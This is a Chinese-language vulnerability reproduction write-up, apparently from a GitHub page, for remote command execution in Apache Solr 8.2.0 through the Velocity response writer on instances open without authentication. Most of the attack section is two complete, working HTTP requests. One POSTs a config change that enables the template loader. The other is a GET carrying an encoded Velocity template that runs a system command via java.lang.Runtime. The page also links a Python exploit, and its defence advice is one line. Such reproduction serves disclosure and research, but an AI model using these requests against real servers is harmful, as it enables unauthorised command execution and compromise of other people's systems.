




# [漏洞复现] Apache Solr RCE


### 漏洞详情
原作者S00pY 666!！如果知道Core路径，通过POST数据包修改配置文件，可远程执行命令。测试使用solr-8.2.0最新版本，目测影响全版本。

**利用前提**
solr存在未授权访问。

### 漏洞复现
访问Core Admin得到应用路径，漏洞复现踩坑：如果Add Core报错，将`/solr-8.2.0/server/solr/configsets/_default`下的conf文件夹复制到`new_core`文件夹下即可。



开启params.resource.loader.enabled

```
POST /solr/new_core/config HTTP/1.1
Host: 10.211.55.13:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```


命令执行

```
GET /solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.211.55.13:8983
```




[Python EXP](https://github.com/mark-zh/POC-AND-EXP/blob/master/Web%20Server/Apache/solr_rce.py)

### 防御
禁止访问solr。

**参考**
https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt